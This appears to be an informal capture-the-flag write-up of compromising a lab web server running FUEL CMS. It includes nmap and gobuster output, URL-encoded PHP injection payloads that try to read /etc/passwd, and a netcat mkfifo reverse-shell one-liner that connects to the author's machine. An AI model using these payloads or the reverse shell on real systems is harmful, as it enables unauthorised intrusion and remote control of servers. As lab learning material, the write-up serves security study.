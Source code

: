 # Ignite -> A new start-up has a few issues with their web server.

```
export IP=10.10.192.215
```

- Took my first look at the `robots.txt` file and got some clues already. :)
- Nmap scan came back and doesnt look encouraging at all.
```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-20 16:13 GMT
Nmap scan report for 10.10.192.215
Host is up (0.54s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

```

- Results from gobuster scan.
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/0 (Status: 200)
/assets (Status: 301)
/home (Status: 200)
/index.php (Status: 200)
/index (Status: 200)
/offline (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)

```

- Something tells me that `/fuel` path that has a disallowed access is fishy.

- got some payload of the internet 
```
http://10.10.192.215/fuel/pages/select/?nocache=1507880376191&input=&target=&title=&class=&pdfs=&filter=%3C%3F%20phpinfo%28%29%3B%20%20%3F%3E

%3C%3F%20include_path%3D%27/etc/passwd%27%3B%20%20%3F%3E

%3C%3F%20include_path%3D%27/../../../../../etc/passwd%27%3B%20%20%3F%3E

%3C%3F%20include%20%27/etc/passwd%27%3B%20%20%3F%3E

%3C%3F+include+%27%2Fetc%2Fpasswd%27%3B++%3F%3E

%27%2b phpinfo() %2b%27
```

- It works now i just have to build my payload and use it to read some daunting files from the system.
- Ive tried things, nothing works on the website and it gives no info. Went to read some walkthroughs and stuff like that. Even went to look for vulnerabilities associated with the version of fuel cms used but it still gave me headache. I have not given up.. i am just going to learn new ways LOL.

- I got an exploit that allowed remote code execution on the target system, through fuel cms. About to get reverse shell now.
```
"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.29.246 9999 >/tmp/f"

```
